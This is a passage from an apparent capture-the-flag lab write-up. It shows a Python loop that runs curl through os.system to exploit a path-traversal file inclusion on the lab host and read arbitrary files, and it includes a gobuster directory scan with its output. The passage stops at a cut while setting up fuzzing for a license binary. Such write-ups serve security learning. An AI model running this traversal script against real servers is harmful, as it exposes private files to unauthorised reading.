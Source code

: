 I was a bit lazy, so I created a quick Python script to read the files:

```python
import os

while True:
	file = input("File: ")
	os.system(f'curl http://10.129.227.96/index.php?page=../../../../../../../..{file}')
```

I still ran a `gobuster` scan to enumerate any other pages:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.96 -x html,txt,php -t 100 -k
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.227.96
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2023/05/10 23:19:47 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> /index.php?page=default.html]
/default.html         (Status: 200) [Size: 11414]
/assets               (Status: 301) [Size: 162] [--> http://10.129.227.96/assets/]
/css                  (Status: 301) [Size: 162] [--> http://10.129.227.96/css/]
/beta.html            (Status: 200) [Size: 4144]
/js                   (Status: 301) [Size: 162] [--> http://10.129.227.96/js/]
```

`beta.html` contained a file upload that did nothing, but it revealed some information regarding an `activate_license` application present:

<figure><img src="../../../.gitbook/assets/image (14) (11).png" alt=""><figcaption></figcaption></figure>

We can fuzz to find this binary somewhere. Create a quck file with PATH variables:
